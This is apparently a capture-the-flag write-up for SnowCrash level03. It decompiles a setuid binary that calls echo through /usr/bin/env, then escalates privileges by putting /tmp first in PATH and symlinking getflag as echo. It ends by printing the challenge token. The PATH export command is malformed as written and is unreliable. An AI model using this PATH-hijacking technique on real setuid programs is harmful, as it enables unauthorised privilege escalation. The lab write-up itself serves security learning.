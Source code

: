 when you enter lv03 and do a basis ls you get

```bash
level03@SnowCrash:~$ /bin/ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```
so an executable running it, it says:


```bash
level03@SnowCrash:~$ ./level03 
Exploit me
```
so decompiling it (I used gidrhra but gdb works as well)


```C
int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```
we can conclude a few things 
1. as the files owner is flag03 (not user 03) and has s permissions that means that running this will be run as flag03 user. 
2. The user is running echo via /usr/bin/env that is weird.

Explotation let's trick the system into thinking getflag is actually echo first lets add /tmp at the start of the PATH env variable

```bash
export "/tmp:$PATH"
```
then lets create en tmp a symbolic link to getflag called echo

```bash
ln -s /bin/getflag /tmp/echo
```

and run the executable again

```bash
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
